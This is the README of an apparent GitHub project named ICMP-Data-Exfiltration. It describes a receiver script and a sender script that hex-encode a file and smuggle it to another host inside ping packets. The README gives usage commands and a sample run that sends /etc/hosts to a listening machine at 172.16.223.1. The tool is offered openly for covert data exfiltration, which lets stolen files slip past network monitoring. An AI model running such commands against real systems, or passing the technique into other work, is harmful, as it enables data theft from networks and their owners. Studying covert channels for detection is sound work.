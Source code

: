 # ICMP-Data-Exfiltration

This program is used to send data over the network inside "ICMP Packets", with the help of the "PING" command.
You can send any type of file over the network between two hosts simply by pinging the destination host.


## Examples of How To Use
The program has two files.

First one "icmp_exfiltration.py", this file we will use as a receiver by running this file we will automatically
start listening for any icmp packet that are coming towards our host machine, once we start receiving packets
this file will automatically decode the message and print it to the display.

Second file "icmp_sendData.py", with the help of this file we will send the file we want to another host where it is
listening for our communication, we just need to provide the destination "IP-Address" and "FILE NAME" and the script will automatically 
convert our data into "HEXADECIMAL" and send it to its destination.

### Help Menu
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py

[!] Usage icmp_exfiltration.py <Interface-Name>                               
```

#### icmp_sendData.py
```bash
❯ sudo python3 icmp_sendData.py

[!] Usage icmp_sendData.py <IP-Address> <File-Name>                            
```

### Usage
#### icmp_exfiltration.py
```bash
❯ sudo python3 icmp_exfiltration.py vmnet8

127.0.0.1       localhost
127.0.1.1       Gurpreet06                        
```
First we will run "icmp_exfiltration.py" file by specifying on which interface we want to listen.

#### icmp_sendData.py
```bash
❯ python3 icmp_sendData.py 172.16.223.1 /etc/hosts

[+] Trying to send file...

[+] File sent successfully.                        
```
Then from another host we will run the "icmp_sendData.py" and the destination "IP-Address" and "FILE NAME"
and it will automatically send  the file to another host terminal.

